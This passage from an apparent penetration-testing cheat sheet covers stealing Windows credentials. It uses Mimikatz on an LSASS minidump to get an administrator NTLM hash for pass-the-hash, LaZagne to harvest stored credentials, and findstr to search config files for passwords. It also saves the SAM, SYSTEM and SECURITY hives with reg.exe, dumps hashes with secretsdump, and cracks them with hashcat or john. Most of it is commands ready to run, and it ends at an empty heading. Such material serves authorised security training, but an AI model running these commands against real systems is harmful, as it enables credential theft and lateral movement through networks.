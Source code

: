 This is successful, and we can load this in `Mimikatz` using the `sekurlsa::minidump` command. After issuing the `sekurlsa::logonPasswords` commands, we gain the NTLM hash of the local administrator account logged on locally. We can use this to perform a pass-the-hash attack to move laterally if the same local administrator password is used on one or multiple additional systems (common in large organizations).


### Credential Hunting in Windows

The tool [Lazagne](https://github.com/AlessandroZ/LaZagne) is used for discover credentials that web browsers or other installed applications may insecurely store. 

```
start lazagne.exe all
```


### Find patterns with findstr

Example:

```
C:\> findstr /SIM /C:"password" *.txt *.ini *.cfg *.config *.xml *.git *.ps1 *.yml
```


### Attacking SAM and LSASS

* Using reg.exe to Copy Registry:

```
reg.exe save hklm\sam C:\sam.save

reg.exe save hklm\system C:\system.save

reg.exe save hklm\security C:\security.save
```

Then, these files must be transferred to the attacker's system.

* Dumping Hashes with Impacket's secretsdump.py
Example:

```
python3 /<path>/secretsdump.py -sam sam.save -security security.save -system system.save LOCAL
```

Then, the NTLM hashes must be cracked, with John or Hashcat.

```
sudo hashcat -m 1000 <fileHash> <pathWordlist>
```

or:

```
john hash --format=NT --wordlist=<pathWordlist>
```

* Dumping LSA Secrets Remotely

